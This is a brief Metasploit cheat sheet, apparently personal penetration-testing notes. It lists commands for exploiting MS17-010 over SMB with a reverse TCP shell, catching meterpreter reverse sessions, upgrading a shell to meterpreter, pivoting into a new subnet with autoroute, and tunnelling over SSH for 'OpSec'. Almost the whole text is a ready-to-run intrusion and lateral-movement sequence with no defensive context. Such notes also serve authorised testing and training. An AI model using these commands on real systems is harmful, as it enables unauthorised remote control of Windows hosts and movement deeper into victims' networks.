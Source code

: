 ## Initial access

```
use exploit/windows/smb/ms17_010_psexec
set payload windows/shell_reverse_tcp
set LPORT, LHOST, RPORT, RHOST
run
```

## Basic meterpreter session

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LPORT 33333
set LHOST 0.0.0.0
```

## Escalate to the meterpreter session:

```
sessions -l
use post/multi/manage/shell_to_meterpreter
set SESSION 1 
set LPORT 4444
run
sessions -i 2
```

## Pivoting to new subnet

```
use post/multi/manage/autoroute
```
## OpSec ssh port tunnel

ssh -N -L 3000:localhost:3000 ubuntu@IPADDR
